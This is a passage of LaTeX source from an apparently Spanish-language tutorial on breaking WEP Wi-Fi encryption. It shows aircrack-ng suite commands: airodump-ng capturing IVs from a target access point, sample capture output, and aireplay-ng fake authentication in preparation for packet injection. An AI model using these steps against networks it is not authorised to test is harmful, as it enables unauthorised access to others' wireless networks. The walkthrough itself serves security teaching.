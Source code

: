 \begin{enumerate}
    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract,escapechar=!]
      !\promptr! @@airodump-ng -c !\val{canal\_ap}! -b !\val{bssid\_ap}! \ @@
      > @@-w !\val{pref\_out}! !\val{nic\_att\_mon}!@@
    \end{lstlisting}

    \noindent donde  es el prefijo de los nombres de los ficheros que contendrán la salida del
    comando, es decir, que contendrán los IVs.

    Mientras está teniendo lugar la inyección (cosa que se hará posteriormente), deberá aparecerle, en este
    comando, algo así:

    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract]
      CH  9 ][ Elapsed: 8 mins ][ 2007-03-21 19:25

      BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID

      00:14:6C:7E:40:80   42 100     5240   178307  338   9  54  WEP  WEP         teddy

      BSSID              STATION            PWR  Lost  Packets  Probes

      00:14:6C:7E:40:80  00:0F:B5:88:AC:82   42     0   183782
    \end{lstlisting}

  \item Use Aireplay-ng para hacer una autenticación falsa con el AP.

    Es necesario, para que el AP acepte un paquete de una interfaz, que dicha interfaz se encuentre ya asociada
    a dicho AP. En caso de que no sea así, el AP ignorará el paquete y enviará un paquete DeAuthenticarion en
    claro. Entonces, no se crearán nuevos IVs puesto que el AP estará ignorando todos los paquetes inyectados.
    La interfaz que usted use para inyección ha de estar asociada con el AP mediante el uso de un autentificador
    falso o bien usando una dirección MAC de un cliente ya asociado al AP. Aquí usaremos un autentificador
    falso:

    \begin{lstlisting}[gobble=6,language=bash,style=bashinteract,escapechar=!]
      !\promptr! @@aireplay-ng -1 0 -e !\val{essid\_ap}! -a !\val{bssid\_ap}! \ @@
      > @@-h !\val{nic\_att\_mon\_mac}! !\val{nic\_att\_mon}!@@
    \end{lstlisting}

    \noindent La opción \lstinline!-1! significa autenticación falsa y \lstinline!0! es el tiempo, en segundos,
    de reasociación. Si ha tenido éxito, el comando le devolverá algo parecido a lo siguiente:


\end{enumerate}
